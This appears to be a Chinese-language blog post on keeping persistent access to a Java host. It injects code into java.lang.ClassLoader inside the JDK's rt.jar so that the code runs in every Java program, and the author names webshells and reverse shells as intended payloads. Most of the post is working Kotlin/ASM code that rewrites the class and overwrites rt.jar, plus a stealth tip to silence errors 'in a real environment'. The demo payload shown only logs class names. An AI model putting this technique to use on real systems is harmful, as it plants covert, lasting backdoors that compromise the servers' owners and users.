

## 前言

众所周知rt.jar是JDK中的一个jar包，里面包含了JDK中的核心类库，如java.lang、java.util等，这些类库是JDK中的基础类库，是JDK中的核心，也是Java程序运行的基础。在Java程序运行时，JVM会自动加载rt.jar中的类库，这些类库会被加载到JVM的内存中，供Java程序使用。<br/>
因此，如果我们能够在rt.jar中注入一些代码，那么这些代码就会被JVM加载到内存中，在每次Java程序运行时，这些代码都会被执行，这样就可以实现权限维持。

## 尝试

最初的尝试是直接修改`rt.jar`，将一些代码注入到常用的类库中，如`java.lang.String`、`java.util.ArrayList`等，但是这样做有两个问题。

1. jvm初始化`ClassLoader`时很多类并未加载，这时在注入的代码里做操作会导致jvm初始化失败。
2. 由于双亲委派机制，注入代码无法访问到更下级的类，例如`Tomcat`等容器自定义的`ClassLoader`，这样无法利用一些web应用维持权限。

经过多次尝试决定将注入的代码注入到`java.lang.ClassLoader`中，在`ClassLoader`加载类时执行注入的代码，根据要加载的类名判断是否需要将代码注入到该类中。
这样我们可以根据加载的类判断当前运行的程序类型，根据程序类型选择注入的代码，例如web应用可以选择注入`webshell`，命令行程序直接`反弹shell`等。

## 实现

注入

```kotlin
private fun inject(data: ByteArray): ByteArray {
  val reader = ClassReader(data)
  val writer = ClassWriter(ClassWriter.COMPUTE_FRAMES or ClassWriter.COMPUTE_MAXS)

  reader.accept(object : ClassVisitor(Opcodes.ASM9, writer) {
    override fun visitMethod(
      access: Int,
      name: String,
      descriptor: String?,
      signature: String?,
      exceptions: Array<out String>?
    ): MethodVisitor {
      val mv = super.visitMethod(access, name, descriptor, signature, exceptions)
      if ("loadClass" == name) {
        println("injecting $name $descriptor")
        return object : MethodVisitor(Opcodes.ASM9, mv) {
          override fun visitCode() {

            val raw = Label()
            val tryStart = Label()
            val tryEnd = Label()
            val catchStart = Label()
            // 创建try-catch块，确保注入的代码不会影响ClassLoader的正常运行
            visitTryCatchBlock(tryStart, tryEnd, catchStart, "java/lang/Throwable")
            visitLabel(tryStart)

            // 打印加载的类名
            // System.out.println(arg1);
            visitFieldInsn(
              Opcodes.GETSTATIC,
              "java/lang/System",
              "out",
              "Ljava/io/PrintStream;",
            )
            visitVarInsn(Opcodes.ALOAD, 1)
            visitMethodInsn(
              Opcodes.INVOKEVIRTUAL,
              "java/io/PrintStream",
              "println",
              "(Ljava/lang/Object;)V",
              false,
            )


            visitLabel(tryEnd)
            // 跳转到原始代码
            visitJumpInsn(Opcodes.GOTO, raw)

            visitLabel(catchStart)
            // 真实环境这里不应该直接打印，替换成visitInsn(Opcodes.POP)
            visitMethodInsn(
              Opcodes.INVOKEVIRTUAL,
              "java/lang/Throwable",
              "printStackTrace",
              "()V",
              false,
            );

            // 原始代码位置
            visitLabel(raw)


          }
        }
      }
      return mv
    }


  }, 0)

  return writer.toByteArray()
}
```

生成新`rt.jar`

```kotlin
// 获取rt.jar路径
val rtPath = Path(javaHome) / "jre" / "lib" / "rt.jar"

// 读取rt.jar
val rtJar = ZipFile(rtPath.toFile())
// 创建临时文件
val tempJar = File.createTempFile("test", ".data")
val zos = ZipOutputStream(tempJar.outputStream().buffered())

try {

  // 遍历rt.jar中的所有文件
  for (entry in rtJar.entries()) {
    var data = rtJar.getInputStream(entry).readAllBytes()
    var injected = false

    // 如果是ClassLoader.class则注入代码
    if (entry.name == "java/lang/ClassLoader.class") {
      data = inject(data)
      injected = true
    }

    entry.compressedSize = -1
    zos.putNextEntry(
      if (injected) {
        newZipEntry(entry, data)
      } else {
        entry
      }
    )
    zos.write(data)

  }
  // 将临时文件替换为新的rt.jar
  tempJar.renameTo(rtPath.toFile())
} finally {
  zos.close()
  tempJar.delete()
}
```

反编译执行注入后的`ClassLoader`代码


执行测试程序

```java
package org.example;
public class Test {
    public static void main(String[] args) throws Exception {
        System.out.println("Main running...");
    }
}

// 输出
// ......
// java.io.InputStreamReader
// java.io.InputStreamReader
// java.io.InputStreamReader
// java.net.Socket
// java.net.Socket
// java.net.Socket
// org.example.Test
// org.example.Test
// org.example.Test
// java.io.PrintStream
// java.io.PrintStream
// java.io.PrintStream
// Main running...
```
